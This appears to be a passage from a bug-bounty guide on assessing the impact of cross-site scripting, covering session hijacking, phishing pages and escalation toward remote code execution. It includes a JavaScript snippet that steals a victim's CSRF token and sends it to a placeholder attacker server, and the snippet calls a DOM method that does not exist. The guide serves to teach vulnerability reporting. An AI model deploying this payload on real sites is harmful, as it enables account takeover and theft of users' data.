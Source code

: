 - The impact of XSS varies because of several factors. For instance, the type of XSS determines the number of users who could be affected. Stored XSS on a public forum can realistically attack anyone who visits that forum page, so stored XSS is considered the most severe. On the other hand, reflected or DOM XSS can affect only users who click the malicious link, and self-XSS requires a lot of user interaction and social engineering to execute, so they are normally considered lower impact.

  

- The identities of the affected users matter too. Let’s say a stored XSS vulnerability is on a site’s server logs. The XSS can affect system administrators and allow attackers to take over their sessions. Since the affected users are accounts of high privilege, the XSS can compromise the integrity of the entire application.

  

- You might gain access to customer data, internal files, and API keys. You might even escalate the attack into RCE by uploading a

shell or execute scripts as the admin. If, instead, the affected population is the general user base, XSS allows attackers to steal private data like cookies and session tokens.

  

- This can allow attackers to hijack any user’s session and take over the associated account. Most of the time, XSS can be used to read sensitive information on the victim’s page. Since scripts executed during an XSS attack run as the target page, the script is able to access any information on that page.

  

- This means that you can use XSS to steal data and escalate your attack from there. This can be done by running a script that sends the data back to you. For example, this code snippet reads the CSRF token embedded on the victim’s page and sends it to the attacker’s server as a URL parameter named token. If you can steal a user’s CSRF tokens, you can execute actions on their behalf by using those tokens to bypass CSRF protection on the site.

var token = document.getElementsById('csrf-token')[0];

var xhr = new XMLHttpRequest();

xhr.open("GET", "http://attacker_server_ip/?token="+token, true);

xhr.send(null);

  

- XSS can also be used to dynamically alter the page the victim sees, so you can replace the page with a fake login page and trick the user into giving you their credentials (often called phishing). XSS can also allow attackers to automatically redirect the victim to malicious pages and perform other harmful operations while posing as the legit site, such as installing malware. Before reporting the XSS you found, make sure to assess the full impact of that particular XSS to include in your vulnerability report.